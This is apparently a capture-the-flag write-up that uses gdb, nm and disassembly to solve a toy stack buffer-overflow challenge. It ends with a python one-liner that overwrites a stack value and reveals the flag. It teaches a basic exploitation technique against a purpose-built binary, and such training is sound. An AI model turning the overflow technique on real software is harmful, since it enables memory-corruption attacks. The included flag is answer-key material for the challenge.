 # Alternate solution using GDB

Step one is obviously running the program. This yields us:

```
Change to 0xdeadbeef
old value: 0x00001337
Give me some input:
```

And the program halts for input. We enter "hello world":

```
Give me some input: hello world
new value: 0x00001337
Try again!
```

Based on the name of the task we can assume we are supposed to do a
buffer overflow attack. This means writing more bytes into a buffer than
it is intended to hold. We then assume that the input buffer is located
somewhere in memory *lower* than the value `0x1337`, and that through
overflowing the buffer the value can be changed to `0xdeadbeef` to
get the flag.

But how do we know exactly how much to overflow? This is the main
part of the challenge. When we know how far beyond the end of the buffer
we have to write `0xdeadbeef`, we are a short pipe-manouver away from
achieveing our goal.

Before we start gdb we should do some basic information gathering about
the executable:

```
nm overflowme
```

This lists all *symbols* in the symbol table of the executable (if any).
Sometimes executables are stripped of symbols to make them smaller in
size, or harder to understand/pwn.

The output is a list of rows like these:

```
0000000000600ac8 B __bss_start
0000000000600ad8 b completed.6938
0000000000600ab8 D __data_start
[...]
0000000000400650 T __libc_csu_init
                 U __libc_start_main@@GLIBC_2.2.5
00000000004005b6 T main
                 U printf@@GLIBC_2.2.5
                 U puts@@GLIBC_2.2.5
0000000000400530 t register_tm_clones
00000000004004c0 T _start
0000000000600ad0 B stdin@@GLIBC_2.2.5
0000000000600ac8 D __TMC_END__
```

These rows start with a memory address, and then a symbol name. We can
see that the symbol `main` exists (as we could suspect). This is most
likely where the program begins execution. We could gather more
information if we wanted, we could for instance use `objdump`, `hexdump`,
`xdd`, a disassembling tool, or any of a million tools out there to help
us. We chose `gdb`.

```
$ gdb overflowme
[...]
Reading symbols from overflowme...(no debugging symbols found)...done.
(gdb)
```

This is the gdb interactive shell. Read up on it! Lets use what we
learned about the symbols in the file:

```
(gdb) break main
Breakpoint 1 at 0x4005ba
(gdb) start
Temporary breakpoint 2 at 0x4005ba
Starting program: [...]/overflowme

Breakpoint 1, 0x00000000004005ba in main ()
(gdb)
```

Now we set a breakpoint at `main`, and start exeuction. As expected
the program breaks at `main` and we can continue to interact with gdb.

```
(gdb) disas main
Dump of assembler code for function main:
   0x00000000004005b6 <+0>:	push   %rbp
   0x00000000004005b7 <+1>:	mov    %rsp,%rbp
=> 0x00000000004005ba <+4>:	sub    $0x50,%rsp
   0x00000000004005be <+8>:	movl   $0x1337,-0x4(%rbp)
   0x00000000004005c5 <+15>:	mov    $0x4006d4,%edi
   0x00000000004005ca <+20>:	callq  0x400470 <puts@plt>
[...]
```
Note the arrow in the left-most column indicating where we are executing
(where we have breaked at).

This part requires you to have basic knowledge about the x86 assembly
language and basics about Intel CPU architecture. The first two lines
are standard and indicates that we initiate a new stack frame. We can
note that `%rsp` and `%rbp` indicate that the file is a 64-bit
executable, which is something we could also have found out when we
gathered information about the program before we started gdb (in 32-bit
the stack would be referenced using `%esp` and `%ebp`). The next two
lines are the key to our program. The first one moves the stackpointer
`0x50`, and the next one moves the value `0x1337` (which we recognise
as the value we are supposed to overwrite) to a 4-byte offset from the
base pointer `%rpb`.

When the stack pointer is moved a long way like it was here, `0x50`
(80) bytes, it's a strong indication that an array is stack allocated.
My initial thought here is that this is the buffer we are supposed to
overflow, which is also supported by the fact that the value `0x1337`
is situated directly next to it in memory. From this, I decided to try
and input data and see what happened.

We know that `0x1337` is to be moved to `-4(%rbp)`. We are currently
on hold two instructions before this, so we have to step two
instructions forwards. We check the location in memory before and
after, to see the effect of the move:

```
(gdb) x $rbp-4
0x7fffffffe1cc:	0x00000000
(gdb) stepi
0x00000000004005be in main ()
(gdb) stepi
0x00000000004005c5 in main ()
(gdb) x $rbp-4
0x7fffffffe1cc:	0x00001337
```

We find the value `0x1337` as we expect. The `x` command to gdb is
short for `examine`. We can look at the array that was allocated
also:

```
(gdb) x/20 $rbp-80
0x7fffffffe180:	0x00ff0000	0x00000000	0xff000000	0xff000000
0x7fffffffe190:	0x00000001	0x00000000	0x0040069d	0x00000000
0x7fffffffe1a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe1b0:	0x00400650	0x00000000	0x004004c0	0x00000000
0x7fffffffe1c0:	0xffffe2b0	0x00007fff	0x00000000	0x00001337
```

With `x/20` we print 20 *words* of the memory. A word is 4 bytes.
We see that there is some garbage here (!) and also the `0x1337`
value in the end. We use `-80` as this is the same as `-0x50`.

Now to continue with the hypothesis we need to actually input
data into the program and see if it really is stored in the allocated
space. We need to continue execution of the program for it to take
our input, but we also need to break again to be able to view the
stack state. To find a break point we again look at the main function:

```
(gdb) disas main
[...]
   0x00000000004005ed <+55>:	callq  0x400480 <printf@plt>
   0x00000000004005f2 <+60>:	mov    0x2004d7(%rip),%rdx        # 0x600ad0 <stdin@@GLIBC_2.2.5>
   0x00000000004005f9 <+67>:	lea    -0x50(%rbp),%rax
[...]
   0x0000000000400619 <+99>:	callq  0x400480 <printf@plt>
   0x000000000040061e <+104>:	cmpl   $0xdeadbeef,-0x4(%rbp)
   0x0000000000400625 <+111>:	jne    0x40063d <main+135>
[...]
```

We can see the interesting line where the library function `stdin`
is referenced. This is because of the symbols in the executable,
in the same manner that we could find `main`. We also see the line
later where `-0x4(%rbp)` is compared to `0xdeadbeef`, which is
where the program checks if we managed to overflow the buffer and
overwrite the `0x1337` value that we know is there from the start.

We can set up a break point before this instruction:

```
(gdb) break *0x40061e
Breakpoint 3 at 0x40061e
(gdb) c
Continuing.
Give me some input:
```

This time we specify an address to `break` instead of a symbol
(like we did in the start with `main`). We have to add an
asterix at the start for gdb to be happy.

`c` continues the program execution ("unbreaks"). We see that the
program prompts us for input, as expected. We can give the program
some input that we can find later in memory, the standard way
in the pwning community is filling space with the char `'A'`.

```
Give me some input: AAAA
new value: 0x00001337

Breakpoint 5, 0x000000000040061e in main ()
(gdb)
```

The program broke (*wink wink*) again, and we can examine the
stack to see if our A's are present. this time remember that
the stack pointers have moved so we need to use the memory
addresses form the last time we viewed the stack to get the same
view.

```
(gdb) x/20 0x7fffffffe180
0x7fffffffe180:	0x41414141	0x0000000a	0xff000000	0xff000000
0x7fffffffe190:	0x00000001	0x00000000	0x0040069d	0x00000000
0x7fffffffe1a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe1b0:	0x00400650	0x00000000	0x004004c0	0x00000000
0x7fffffffe1c0:	0xffffe2b0	0x00007fff	0x00000000	0x00001337
```

We see the 4 `'A'`'s we input as `0x41414141`.

Thats great! Our hypothesis is correct, the input is stored in
the stack allocated buffer. We can now use Python and the
aforementioned pipe-manouver to get the flag.

The distance from `0x1337` to the first of our 4 A's is easily
deduced from the stack pointer values: `80 - 4 = 76`

```
$ python2 -c 'print "A"*76 + "\xef\xbe\xad\xde"' | ./overflowme
Change to 0xdeadbeef
old value: 0x00001337
Give me some input: new value: 0xdeadbeef
Yay! The token is: TG17{0verfl0ws are c00l}
```
Note that we input "deadbeef" in reverse order in pairs of
letters. This has to do with endianness, and that each byte
is representable by two hex symbols. Read up on it!

We could have done this last step at once we identified the
distance as 76, but hopefully we learned something useful when
disasembling and stepping through the progam and viewing the
stack as we went along :)


